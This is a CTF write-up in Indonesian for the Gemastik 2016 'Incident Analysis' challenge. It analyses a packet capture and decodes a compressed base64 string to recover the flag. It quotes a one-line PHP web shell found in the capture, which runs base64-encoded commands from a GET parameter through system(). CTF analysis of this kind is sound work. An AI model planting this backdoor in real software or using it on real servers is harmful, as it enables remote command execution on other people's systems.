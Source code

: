 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Incident Analysis - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: Web Exploitation
tags: [gemastik]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Incident Analysis](/images/incident-analysis.png)

### Solusi :

dalam pcapng yang diberikan kami menemukan potongan code php yang cukup menarik perhatian kami yaitu 
`<?php system(gzuncompress(base64_decode(\$_GET['id']))); ?>`
Ini gunanya untuk mengakses command ke system() dengan memberikan input base64 dengan request GET ke ?id= sehingga memungkinkan 
attacker untuk melakukan **command injection**

Kemudian kami mencoba melakukan beberapa decode sehingga menemukan flag di string ini
`eJxLTc7IV3B39XUMDvH0ri4yNsmJzzMuiU9Myc3Mi09OzItPzEvMqaxKjU8sKUlMzo5PK8rPjU8pzS2oVbBT0C/JLdBPT81NLC7JzNYrqSgBAGIlHSE=`

```php
<?php
    $string='eJxLTc7IV3B39XUMDvH0ri4yNsmJzzMuiU9Myc3Mi09OzItPzEvMqaxKjU8sKUlMzo5PK8rPjU8pzS2oVbBT0C/JLdBPT81NLC7JzNYrqSgBAGIlHSE=';
    $a = base64_decode($string);
    $b = gzuncompress($a);
    echo $b;
?>
```

![incident analysis flag](/images/incident-analysis-flag.png)
